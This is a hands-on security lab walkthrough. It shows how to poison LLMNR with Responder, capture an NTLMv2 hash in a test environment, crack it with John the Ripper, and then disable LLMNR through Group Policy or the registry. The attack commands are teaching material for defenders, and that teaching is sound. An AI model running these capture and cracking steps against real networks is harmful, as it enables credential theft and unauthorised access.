 

# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a weak password.

Specifically, we are looking to take advantage of LLMNR.  

First, we will need to load our terminal and start responder.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](../AppLocker/attachments/Clipboard_2020-06-17-08-32-51.png)

Next, let’s become root:

adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ `sudo su -`

Let’s change into the Responder directory:

root@DESKTOP-I1T2G01:~# `cd /opt/Responder/`

And let’s start Responder:

root@DESKTOP-I1T2G01:/opt/Responder# `responder -v -I eth0`

![](attachments/responder-on.png)

Now, let's go back to your Windows system and open Windows Explorer and put in the string \\NonExistent into the address bar.

![](attachments/Non-Existent.png)

Give it a few moments and you should see some capture data showing up.  Please note there may be an error.  That is OK.

![](attachments/responder-hash.png)

Next we need to kill Responder with Ctrl + c.  This will return the command prompt. 

Now, we need to change to the logs directory.

root@DESKTOP-I1T2G01:/opt/Responder# `cd /usr/share/responder/logs`

Once there, we will need to start John The Ripper"

root@DESKTOP-I1T2G01:/usr/share/responder/logs# `john --format=netntlmv2 SMB-NTLMv2-SSP-fe80\:\:2524\:e51e\:966\:e42f.txt`
Remember!  Your IPv6 will be different!!!!

![](attachments/john.png)

We can see that the password was cracked (clabs).

# Mitigation methods

## Disable LLMNR with Active Directory GPO:

Active Directory has a GPO you can configure to prevent its domain workstations from using LLMNR.

Use Local Group Policy editor by running gpedit.msc and modifying the policy.

Create a New or Update an existing Group Policy and Edit accordingly:

`Computer Configuration` -> `Administrative Templates` -> `Network` -> `DNS Client` Enable `Turn Off Multicast Name Resolution policy` by changing its value to `Enabled`

See screenshots below

![](attachments/disable-active-1.png)

![](attachments/disable-active-2.png)

## Disable LLMNR with Command Line (Single Workstation, Windows 7,8,10 Home)

`REG ADD  "HKLM\Software\policies\Microsoft\Windows NT\DNSClient"`
`REG ADD  "HKLM\Software\policies\Microsoft\Windows NT\DNSClient" /v  "EnableMulticast" /t REG_DWORD /d "0" /f`
